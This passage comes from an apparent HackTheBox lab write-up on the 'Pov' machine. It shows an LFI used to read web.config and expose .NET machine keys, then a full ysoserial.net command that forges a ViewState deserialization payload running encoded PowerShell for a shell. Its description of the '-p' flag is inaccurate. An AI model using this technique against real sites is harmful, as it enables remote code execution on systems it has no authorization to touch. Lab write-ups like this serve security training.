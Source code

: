 We have verified there being LFI vulnerability. What file should we be reading? 

Doing some researching on this, we found out **__VIEWSTATE** could be exploited. 

## Shell as sfitz
### VIEWSTATE

You can learn more about exploiting **__VIEWSTATE** from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter#test-case-4-.net-greater-than-4.5-and-enableviewstatemac-true-false-and-viewstateencryptionmode-true) and [here](https://swapneildash.medium.com/deep-dive-into-net-viewstate-deserialization-and-its-exploitation-54bf5b788817).

We would have to first find out .NET framework version. This can be found out inside `C:\web.config` file and we should be able to read this through LFI vulnerability identified.

Let's try reading `/web.config`. 

We are able to read it with no problem:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/pov/image-10.png)

.NET framework seems to be version 4.5 and it also reveals **decryptionKey** and **validationKey**.

The next step is to generate a serialized payload using [YSoSerial.Net](https://github.com/pwntester/ysoserial.net).

After downloading the file, we will run the following command:

```powershell
./ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "powershell -e JABj<snip>==" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" 
```

We know, it is very long. Let's break it down. 

`-p` parameter sets where we should copy-paste the output of the command.
